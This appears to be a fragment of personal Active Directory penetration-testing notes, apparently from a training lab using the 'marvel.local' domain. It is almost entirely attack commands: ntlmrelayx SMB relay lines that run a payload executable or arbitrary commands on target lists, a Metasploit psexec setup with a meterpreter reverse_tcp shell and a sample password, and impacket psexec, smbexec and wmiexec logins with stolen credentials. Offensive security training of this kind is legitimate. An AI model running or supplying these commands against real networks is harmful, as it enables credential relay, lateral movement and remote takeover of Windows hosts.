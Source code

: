 - SMB Relay
    
    ```bash
    SMB Relay
    /etc/responder/Responder.conf
    
    Attack a ntlm
    ntlmrelayx.py -tf targets.txt -smb2support -i
    ntlmrelayx.py -tf targets.txt -smb2support -e test.exe
    ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
    ```
    
- Gaining Shell
    
    ```bash
    Metasploit
    msfconsole 
    search psexec 
    use windows/smb/psexec
    set rhosts 192.
    set smbdomain marvel.local
    set smbuser fcastle
    set smbpass Password
    set payload Windows/x64/meterpreter/reverse_tcp
    set LHOST eth0
    run
    set target 2
    
    psexec.py --help
    
    psexec.py marvel.local\fcastel:Password@192.168.57.141
    smbexec.py marvel.local\fcastel:Password@192.168.57.141
    wmiexec.py marvel.local\fcastel:Password@192.168.57.141
    
    ```
    
    ![Untitled](Active%20Directory%20621d0cabc91648de8dd02f0cd69d1b4d/Untitled%201.png)
    